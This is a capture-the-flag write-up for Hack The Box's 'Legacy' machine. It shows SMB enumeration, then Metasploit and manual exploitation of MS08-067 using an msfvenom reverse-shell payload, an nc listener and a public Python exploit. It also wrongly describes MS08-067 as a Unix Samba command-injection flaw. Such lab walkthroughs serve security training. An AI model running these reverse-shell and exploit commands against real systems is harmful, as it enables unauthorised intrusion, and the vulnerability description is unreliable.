 
# Main Title

Legacy - 10.10.10.4

![](/images/legacy/1. legacy.png "Legacy Info Card")

Contents:

1. TOC
{:toc}

<p>&nbsp;</p>
=======================================================

## Introduction

=======================================================

Legacy is another early, easy machine from the Hack the Box platform.

<p>&nbsp;</p>
=======================================================

## Tools & Techniques Used

=======================================================

To root this machine we will use Metasploit to exploit a vulnerable version of Unix Samba Server documented in MS08-067.  This particular exploit is a Remote Command Injection Vulnerability and obtains root privileges instantly.
After using Metasploit, we will also find a python script which exploits the same vulnerability, generate our own shellcode using msfvenom, and then run the python script for manual exploitation.

<p>&nbsp;</p>



===========================================
Scanning & Enumeration
===========================================


First off, we will start with a standard nmap command to see what initially shows as open:

    nmap -A -T4 10.10.10.4

![](/images/legacy/2. nmap.png "nmap")

So it looks like a Windows XP, possibly SP3 machine.

Ports 139, 445, and 3389 are open.  

Here are some further details from the scan:

![](/images/legacy/3. nmap.png "nmap")

Looks like we have some access via smb, port 139.  

We can try smbclient:  smbclient -NL 10.10.10.4

smbclient attempts to use smb to connect to port 139 by default

-N means no login info, anonymous login attempt

-L means list shares

10.10.10.4 is the IP address of the target

    smbclient -NL 10.10.10.4

![](/images/legacy/4. smbclient-1.png "smbclient")

No joy there. We can also try to force a certain level of the smb protocol by adding the option “--option='client min protocol=NT1'”

    smbclient --option='client min protocol=NT1' -NL 10.10.10.4

![](/images/legacy/5. smbclient-2.png "smbclient")

We can try Metasploit's smb_scanner:

    msfconsole

    use auxiliary/scanner/smb/smb_version

    show options

![](/images/legacy/6. msf smb_version.png "smb_scanner")

We must set the target via the RHOSTS (or rhosts, this is not case sensitive) variable. 

    set rhosts 10.10.10.4
    
    run

![](/images/legacy/7. msf smb_version_2.png "smb_scannner")

→ These scan results show it to be a Windows XP SP3 machine via port 445.
→ Next, let's see what Google results we can find:



→ The top two results mention MS08-067, so that is our first avenue we will explore.
→ The rapid7.com linke will most likely contain details for a metasploit module, so we can start there.





→ So, here we have the description of the exploit and the msf commands to run.  Let's move on to exploitation via Metasploit:




===========================================
Exploitation via Metasploit
===========================================

→ In your metasploit window, let's confirm the module is still present:
   ⇒ search ms08-067



→ Next we load the module:
   ⇒ use exploit/windows/smb/ms08_067_netapi
   ⇒ alternatively, if you searched for it you can reference by the # listed above: use 0
→ First up, we want to see our options:
   ⇒ show options



→ Looks like we only need to set the RHOSTS setting and then run it:
   ⇒ set rhosts 10.10.10.4
   ⇒ run



→ And we have a meterpreter shell!
→ First two commands you should run anytime you have a meterpreter shell on a Windows machine:
   ⇒ getuid
   ⇒ sysinfo



→ NT AUTHORITY\SYSTEM means we have root level access to the machine
→ And the sysinfo output confirms this is Windows XP, SP3, 32-bit (x86)

→ Next you can upgrade to a shell to find the flags:



→ Flags are normally on the desktop of the various users. For Windows XP we need to go to Documents and Settings first:
   ⇒ cd C:\"Documents and Settings"



→ We have users Administrator and john.  
   ⇒ user flag: type john\Desktop\user.txt
   ⇒ root flag: type Administrator\Desktop\root.txt



→ And we have our two flags.




===========================================
Manual Exploitation
===========================================

→ To exploit manually we will need to download some code to run. The first place we look is on exploit-db.com, so let's re-run our Google search for that site specifically:



→ The last link shown here is for a github.com repo. Since this exploit is so old, we will try the GitHub version first as these tend to be better maintained:
   ⇒ https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py

→ Click on the link then click the “Raw” button to view the raw code.  



→ Copy/paste this raw code into a new python file on your Kali machine.  I'm using gedit and naming the file “smb-exploit.py”



→ Next scroll down until you see a commented section about shellcode:



→ So we need to generate our own shellcode and input it below. There are even sample commands for us to use in the comments.  
→ Since we ran meterpreter payload when exploiting via metasploit above, I am going to use a windows/shell_reverse_tcp payload this time.
→ My command to generate the shellcode is:
   ⇒ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.24 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
   ⇒ For an explanation of the options:
      • -p is for payload, in this case windows/shell_reverse_tcp
      • LHOST is our attacking machine where we are going to be listening for the reverse connection
      • LPORT is the port we want to receive the callback at, 443 in this case
      • EXITFUNC=thread is an option that provides additional stability in this case
      • -b is for “bad characters” or bytecode characters that our shellcode should not contain
      • -f is for format, ‘c’ in this case which would normally be for c code. even though we are using a python script in this case, all we are using is the shellcode. if you use “-f python” it will give you similar shellcode, but formatted differently. 
      • -a is for architecture, “x86” in this case for a 32-bit machine
      • --platform is for the type of machine, again in this case Windows



→ Copy/paste the shellcode (highlighted in the red box above) into the python exploit. Remove the ‘;’ at the end.



→ I also edited the comment at the top of that screenshot to show my actual IP address and port used for the shellcode.
→ Save the python file and run it without any options.  If you have not done “chmod +x smb-exploit.py” yet, do so first.



→ So we see example usage here. Since we know this is Windows XP SP3 English from the metasploit scanner earlier, we can choose option 6.  
→ But before we run our exploit, we need to set up our nc listener in a separate terminal window:
   ⇒ nc -lvnp 443



→ Now back in the first terminal window, we can run the exploit:
   ⇒ ./smb-exploit.py 10.10.10.4 6 445



→ Once you see the ‘Exploit finish’ message, check over in your second terminal window and you should see:



→ Here we have a shell on a Windows machine!  Since this is a Windows XP box, “whoami” is not likely to work, but the fact we are in the Windows\system32 directory likely means we are NT AUTHORITY\System, or “root”.  
→ As a best practice though, run the command “systeminfo” to see what type of machine we are on:




→ And then onward to collect our flags.  Same as before, change directory into “C:\Documents and Settings” and from there you can issue a single command for each flag file: root.txt and user.txt



→ Success!

